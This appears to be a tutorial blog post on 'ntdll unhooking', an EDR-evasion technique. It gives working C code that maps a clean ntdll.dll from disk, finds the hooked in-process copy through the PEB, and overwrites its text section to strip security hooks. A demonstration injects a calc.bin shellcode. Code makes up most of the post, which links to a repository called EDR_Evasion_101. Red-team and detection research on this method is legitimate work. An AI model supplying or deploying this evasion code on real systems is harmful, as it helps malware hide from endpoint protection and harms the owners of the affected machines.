

Ntdll Unhooking is a technique that consists of replacing the syscall stub and thus bypassing it. There are several ways to unhook the dll, but in this case, replace the text section of the dll, which is where the functions are located by the unhooked ntdll on the disk. Below are the code functions and what each one does:

- GetTextUnhooked:  Function responsible for reading the ntdll from the disk, mapping it in memory and recovering its text section.
- GetTextHooked:  Function responsible for returning the ntdll base address of the current process by PEB , and then return the text section of the hooked ntdll.
- ReplaceNtdllText: Function responsible for replacing the hooked ntdll with the unhooked one.

# GetTextUnhooked

First we use CreateFileA to retrieve a file identifier from the disk, then we get its size with GetFileSize to later pass it as a parameter to CreateFileMappingA, with CreateFileMapping we retrieve an identifier from a mapper file and then with MapViewOfFile we will have the memory address of the mapped file.

```c
HANDLE hNtdll = CreateFileA( ntdllName, GENERIC_READ , FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
if (hNtdll == INVALID_HANDLE_VALUE) {
    printf( "[!] CreateFileA for ntdll unhooked failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
    return FALSE;
}

DWORD ntdllSize = GetFileSize( hNtdll, NULL );

HANDLE hMapFile = CreateFileMappingA( hNtdll, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, ntdllSize, NULL );
if (hMapFile == NULL) {
    printf( "\t[!] CreateFileMapping for ntdll unhooked failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
}

LPVOID pNtdllImage = MapViewOfFile( hMapFile, FILE_MAP_READ, 0, 0, 0 );
if (pNtdllImage == NULL) {
    printf( "\t[!] MapViewOfFile for REMOTE ntdll failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
}
```
Now as we have the address we can go to the important part which is getting the address of the text section and size of the text section, this is very simple, we will walk through the header arriving at the Optional Header where we find BaseOfCode and SizeOfCode.

```c
PVOID ptextRemote;
SIZE_T stextRemote;

PIMAGE_DOS_HEADER pImageDosHdr = (PIMAGE_DOS_HEADER)pNtdllImage;
if ( pImageDosHdr->e_magic != IMAGE_DOS_SIGNATURE ){
    printf( "\t[!] Invalid DOS Signature at unhooked ntdll\n" );
    goto _CLEANUP;
}

PIMAGE_NT_HEADERS pImageNtHdrs = (PIMAGE_NT_HEADERS)( (PBYTE)pNtdllImage + pImageDosHdr->e_lfanew );

PIMAGE_SECTION_HEADER pImageSectionHdr = (PIMAGE_SECTION_HEADER)( ( (PBYTE)pImageNtHdrs ) + sizeof(IMAGE_NT_HEADERS) );

ptextRemote = (PVOID)( pImageNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pNtdllImage );
stextRemote = pImageNtHdrs->OptionalHeader.SizeOfCode;

printf( "\t[+] REMOTE Ntdll Text base address: 0x%p\n", ptextRemote );
printf( "\t[+] REMOTE Ntdll Text size: %d\n\n", stextRemote );
```

# GetTextHooked

First we will fill in the PEB structure and then on the following line:

```c
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPEB->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
```

we calculate the address of the loader data table entry (LDR) of the system DLL "ntdll.dll". The PEB contains a pointer to the list of modules loaded in the current process. We will follow the linked list of modules until we find the entry corresponding to ntdll.dll and then subtract an offset of 0x10 to get to the beginning of the DLL data structure.

Now on the next line:

```c
PVOID pNtdllHooked = pLdr->DllBase;
```

We get the base address of the DLL "ntdll.dll" and store it in a variable called "pNtdllHooked".

```c

#ifdef _WIN64
	PPEB pPEB = (PPEB)__readgsqword(0x60);
#elif _WIN32
	PPEB pPEB = (PPEB)__readfsdword(0x30);
#endif // _WIN64

PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPEB->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

PVOID pNtdllHooked = pLdr->DllBase;
```

In sequence, the same thing is done in the previous function:

```c
PIMAGE_DOS_HEADER	pLocalDosHdr	= (PIMAGE_DOS_HEADER)pNtdllHooked;
if (pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
    return FALSE;

PIMAGE_NT_HEADERS 	pLocalNtHdrs	= (PIMAGE_NT_HEADERS)((PBYTE)pNtdllHooked + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE) 
    return FALSE;

PVOID	pLocalNtdllTxt	= (PVOID)(pLocalNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pNtdllHooked);
SIZE_T	sNtdllTxtSize	= pLocalNtHdrs->OptionalHeader.SizeOfCode;	
```

# ReplaceNtdllText

This part is the simplest, we just change the memory protection with VirtualProtect, we will copy the text section of the ntdll read from the unhooked disk and replace the one that is hooked in the current process and finally we return the memory protection as it was previously.

```c
if (!VirtualProtect(pTextOriginalNtdll, sTextOriginalNtdll, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
	printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
	return FALSE;
}

memcpy(pTextOriginalNtdll, pTextUnhookedNtdll, sTextOriginalNtdll);

if (!VirtualProtect(pTextOriginalNtdll, sTextOriginalNtdll, dwOldProtection, &dwOldProtection)) {
	printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
	return FALSE;
}
```

# Demonstration

Now I will use a simple injection to execute calc.bin and use a function to perform a check and verify if the NtProtectVirtualMemory function is hooked. The function is as follows:

```c
PVOID pSyscallAddress = GetProcAddress( GetModuleHandleA( "NTDLL.DLL" ), "NtProtectVirtualMemory" );

printf( "[#] %s [ 0x%p ] ---> %s \n", "NtProtectVirtualMemory", pSyscallAddress, ( *(ULONG*)pSyscallAddress != 0xb8d18b4c ) == TRUE ? "[ HOOKED ]" : "[ UNHOOKED ]" );
```



You can find the complete code on my github, there I also have other ways to recover an unhooked dll, via web server and via knowdlls: [Github](https://github.com/Entropy-z/EDR_Evasion_101/tree/master/ntdll_unhooking)

